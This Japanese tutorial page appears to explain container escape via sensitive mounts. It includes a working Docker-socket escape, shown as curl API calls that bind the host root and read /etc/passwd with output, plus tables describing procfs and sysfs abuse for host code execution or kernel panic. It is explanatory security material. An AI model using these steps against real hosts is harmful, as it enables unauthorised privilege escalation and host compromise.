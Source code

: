 # Sensitive File Mount

コンテナに特定のファイルをマウントした場合に、ホスト側にエスケープできるケースがあります。

## Docker Socket

Docker Daemon と通信を行うソケットをコンテナにマウントすると、コンテナから任意の HTTP リクエストを送信できるため、ホスト側にエスケープすることができます。

```sh
ubuntu@docker:~$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest bash
# コンテナ一覧を取得できる
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock http:/v1.24/containers/json
[{"Id":"3ba2c2752b264486b24d5ae00c2a4b6d00b341fe8001f1e703ecadd4ee44655e","Names":["/eager_wozniak"],"Image":"ubuntu:latest","ImageID":"sha256:bb0eaf4eee00c28cb8ffd54e571dd225f1dd2ed8d8751b2835c31e84188bf2de","Command":"bash","Created":1605360446,"Ports":[],"Labels":{},"State":"running","Status":"Up About a minute","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"fdc64dc8a87c0c6a25e6186c5713f03c36a6be049d9a800d745a4d0c7e6c93de","EndpointID":"609757590f10f891224587c9f48abbf3f243705660c98cfb8489aa5cecf29f51","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"}]}]

# host の / をマウントしたコンテナを作成
root@3ba2c2752b26:/# curl -L --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' http://v1.24/containers/create
{"Id":"8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f","Warnings":[]}
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/start

# cat /hostos/etc/passwd を実行
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/hostos/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/exec
{"Id":"0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb"}
root@3ba2c2752b26:/# curl -L -i --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://v1.24/exec/0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb/start --output /tmp/output
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1831    0  1801  100    30  19159    319 --:--:-- --:--:-- --:--:-- 19478

# 取得できていることが確認できる
root@3ba2c2752b26:/# cat /tmp/output
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.13 (linux)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## procfs と sysfs

procfs や sysfs はカーネルパラメータを設定したりできる機能が提供されているため、これらを利用してホスト側にエスケープしたり、ホスト側の情報を引き出すことができます。  
Docker や LXC では、このような特定のファイルは ReadOnly あるいは `/dev/null` としてマウントされていますが、もしアクセスが可能な場合をみていきます。

![readonly mount](./img/procfs-readonly-mount.png)

### procfs

| ファイル | 概要 |
|:--------:|:----:|
| `/proc/sys/kernel/core_pattern` | core ファイルの名前を指定できる。パイプが利用できるため、ホスト側での任意コード実行に繋げることが可能。|
| `/proc/sys/fs/binfmt_misc` | 指定した拡張子やマジックナンバーを持つファイルを実行する際のインタプリタを指定できる。コンテナ内のファイルを指定することで、ホスト側で対応したファイル実行時にエスケープにつながる。|
| `/proc/sysrq-trigger` | Sysrq コマンドを扱うファイル。例えばコンテナから文字列 `c` をこのファイルに書き込むことでホストにカーネルパニックを起こせる。|
| `/proc/sched_debug` | プロセスのスケジュール管理情報を持っているファイル。全ての namespace のプロセス名が含まれるため、ホストのプロセスも確認できる。 |

上記以外にも `/proc/kcore` や `/proc/kallsyms` など、コンテナから閲覧されない方が良いファイルが多数あります。

### sysfs

| ファイル | 概要 |
|:--------:|:----:|
| `/sys/kernel/uevent_helper` | uevent が発生した際に実行するプログラムを指定できる。コンテナで uevent を発生させることで、ホスト側での任意コード実行に繋げることが可能。|
| `/sys/kernel/vmcoreinfo` | カーネルのアドレスリークにつながる |

